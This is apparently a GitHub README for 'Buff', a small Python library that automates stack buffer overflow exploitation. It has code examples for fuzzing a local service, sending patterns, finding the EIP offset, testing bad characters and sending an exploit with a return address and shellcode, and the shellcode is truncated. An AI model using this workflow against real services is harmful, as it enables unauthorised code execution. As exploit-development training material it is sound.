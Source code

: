 <h1 align="center">What is Buff?</h1>  


<p align="center">
    <img src="https://raw.githubusercontent.com/the-robot/buff/master/images/gigachad.png" | width=200>
</p>

<p align="center">A simple BOF library I wrote under an hour to help me automate with BOF attack.</p>
<p align="center">It comes with fuzzer and a generic method to generate exploit easily.</p>

<br/>

# Usage

I made a [template as well](https://github.com/the-robot/buff/blob/master/examples/template.py).

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))
runner.fuzz()
```

## Sending Pattern
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))
runner.sendPattern()
```

## Find Pattern Offset
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

BUFFER_SIZE = 1100
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "v1Av")
print(offset)
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()

# you can also exclude by
runner.sendBadChars(exclude = ["\x42", "\x43"])

# change default EIP placeholder
runner.sendBadChars(fake_eip = "\x44\x44\x44\x44")
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

# Set Buffer Size
runner.setBufferSize(2400)

# Set Eip offset
runner.setEipOffset(1978)

# Set return address
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

# Set exploit
exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# Set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
